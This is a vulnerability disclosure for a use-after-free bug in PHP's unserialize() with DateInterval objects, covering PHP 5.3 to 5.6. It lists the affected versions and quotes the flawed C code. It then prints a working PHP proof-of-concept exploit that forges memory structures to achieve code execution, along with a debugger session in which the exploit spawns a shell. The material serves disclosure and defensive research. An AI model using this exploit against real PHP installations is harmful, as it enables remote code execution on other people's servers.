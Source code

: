 #Use After Free Vulnerability in unserialize() with DateInterval
> Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.2.28 - Release Date: 2015.3.20
 
A use-after-free vulnerability was discovered in unserialize() with DateInterval object's __wakeup() magic method that can be abused for leaking arbitrary memory blocks or execute arbitrary code remotely.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.7  
Affected is PHP 5.5 < 5.5.23  
Affected is PHP 5.4 < 5.4.39  
Affected is PHP 5.3 <= 5.3.29

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------

``` c
static int php_date_interval_initialize_from_hash(zval **return_value, php_interval_obj **intobj, HashTable *myht TSRMLS_DC)
{
	(*intobj)->diff = timelib_rel_time_ctor();

#define PHP_DATE_INTERVAL_READ_PROPERTY(element, member, itype, def) \
	do { \
		zval **z_arg = NULL; \
		if (zend_hash_find(myht, element, strlen(element) + 1, (void**) &z_arg) == SUCCESS) { \
			convert_to_long(*z_arg); \
			(*intobj)->diff->member = (itype)Z_LVAL_PP(z_arg); \
		} else { \
			(*intobj)->diff->member = (itype)def; \
		} \
	} while (0);

#define PHP_DATE_INTERVAL_READ_PROPERTY_I64(element, member) \
	do { \
		zval **z_arg = NULL; \
		if (zend_hash_find(myht, element, strlen(element) + 1, (void**) &z_arg) == SUCCESS) { \
			convert_to_string(*z_arg); \
			DATE_A64I((*intobj)->diff->member, Z_STRVAL_PP(z_arg)); \
		} else { \
			(*intobj)->diff->member = -1LL; \
		} \
	} while (0);
```
 
The convert_to_long()\convert_to_string() leads to the ZVAL and all its children is freed from memory. However the unserialize() code will still allow to use R: or r: to set references to that already freed memory. There is a use after free vulnerability, and allows to execute arbitrary code.
 
Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.10.2 installation of PHP 5.5.14.

``` php
<?php

$f = $argv[1];
$c = $argv[2];

$fakezval1 = ptr2str(0x100b83008);
$fakezval1 .= ptr2str(0x8);
$fakezval1 .= "\x00\x00\x00\x00";
$fakezval1 .= "\x06";
$fakezval1 .= "\x00";
$fakezval1 .= "\x00\x00";

$data1 = 'a:3:{i:0;O:12:"DateInterval":1:{s:1:"y";a:2:{i:0;i:1;i:1;i:2;}}i:1;s:'.strlen($fakezval1).':"'.$fakezval1.'";i:2;a:1:{i:0;R:5;}}';

$x = unserialize($data1);
$y = $x[2];

// zend_eval_string()'s address
$y[0][0] = "\x6d";
$y[0][1] = "\x1e";
$y[0][2] = "\x35";
$y[0][3] = "\x00";
$y[0][4] = "\x01";
$y[0][5] = "\x00";
$y[0][6] = "\x00";
$y[0][7] = "\x00";

$fakezval2 = ptr2str(0x3b296324286624); // $f($c);
$fakezval2 .= ptr2str(0x100b83000);
$fakezval2 .= "\x00\x00\x00\x00";
$fakezval2 .= "\x05";
$fakezval2 .= "\x00";
$fakezval2 .= "\x00\x00";

$data2 = 'a:3:{i:0;O:12:"DateInterval":1:{s:1:"y";a:2:{i:0;i:1;i:1;i:2;}}i:1;s:'.strlen($fakezval2).':"'.$fakezval2.'";i:2;O:12:"DateInterval":1:{s:1:"y";a:1:{i:0;R:5;}}}';

$z = unserialize($data2);

function ptr2str($ptr)
{
	$out = "";
	for ($i=0; $i<8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}

?>
```

Test the PoC on the command line, then any PHP code can be executed:

``` shell
$ lldb php
(lldb) target create "php"
Current executable set to 'php' (x86_64).
(lldb) run uafpoc.php assert "system\('sh'\)==exit\(\)"
Process 13472 launched: '/usr/bin/php' (x86_64)
sh: no job control in this shell
sh-3.2$ php -v
PHP 5.5.14 (cli) (built: Sep  9 2014 19:09:25) 
Copyright (c) 1997-2014 The PHP Group
Zend Engine v2.5.0, Copyright (c) 1998-2014 Zend Technologies
sh-3.2$ exit
exit
Process 13472 exited with status = 0 (0x00000000) 
(lldb) 
```
